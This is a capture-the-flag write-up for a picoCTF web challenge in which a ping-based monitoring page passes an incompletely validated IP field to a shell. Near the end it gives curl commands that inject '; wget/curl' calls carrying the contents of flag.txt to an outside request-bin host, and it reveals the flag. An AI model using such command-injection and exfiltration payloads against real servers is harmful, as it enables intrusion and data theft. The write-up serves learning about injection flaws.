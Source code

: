 # fancy-alive-monitoring (Web)

>One of my school mate developed an alive monitoring tool.
>Can you get a flag from http://2018shell1.picoctf.com:43316 (link)?

### [~$ cd ..](../)

We are landed in front of a really simple website:

![site](site.png)

The source we are given is as follows:

> ```html
><html>
><head>
>	<title>Monitoring Tool</title>
>	<script>
>	function check(){
>		ip = document.getElementById("ip").value;
>		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
>		if (!chk) {
>			alert("Wrong IP format.");
>			return false;
>		} else {
>			document.getElementById("monitor").submit();
>		}
>	}
>	</script>
></head>
><body>
>	<h1>Monitoring Tool ver 0.1</h1>
>	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
>	<p> Input IP address of the target host
>	<input id="ip" name="ip" type="text">
>	</p>
>	<input type="button" value="Go!" onclick="check()">
>	</form>
>	<hr>
>
><?php
>$ip = $_POST["ip"];
>if ($ip) {
>	// super fancy regex check!
>	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
>		exec('ping -c 1 '.$ip, $cmd_result);
>		foreach($cmd_result as $str){
>			if (strpos($str, '100% packet loss') !== false){
>				printf("<h3>Target is NOT alive.</h3>");
>				break;
>			} else if (strpos($str, ', 0% packet loss') !== false){
>				printf("<h3>Target is alive.</h3>");
>				break;
>			}
>		}
>	} else {
>		echo "Wrong IP Format.";
>	}
>}
>?>
><hr>
><a href="index.txt">index.php source code</a>
></body>
></html>
> ```

Fancy regex on server side, uh? Well, for some unknown reason, the regex's are not the same! On the server, we can append data at the end.
However, we had to find a way to exfiltrate the result of the command, since it's not displayed by the actual script.

We first created a temporary URL grabber on [postb.in](https://postb.in/), and then used `curl` to bypass the Javascript sanity check:

> ```sh
>% curl --data 'ip=8.8.8.8 1> /dev/null; wget "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
>% curl --data 'ip=8.8.8.8 1> /dev/null; curl "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
> ```

The first part of the command redirects the standard output of the command to `/dev/null`, which allows the PHP script to continue until the end. The second
part, after the semi-colon exfiltrate the flag, and we got: **picoCTF{n3v3r_trust_a_b0x_c4a9b715}**
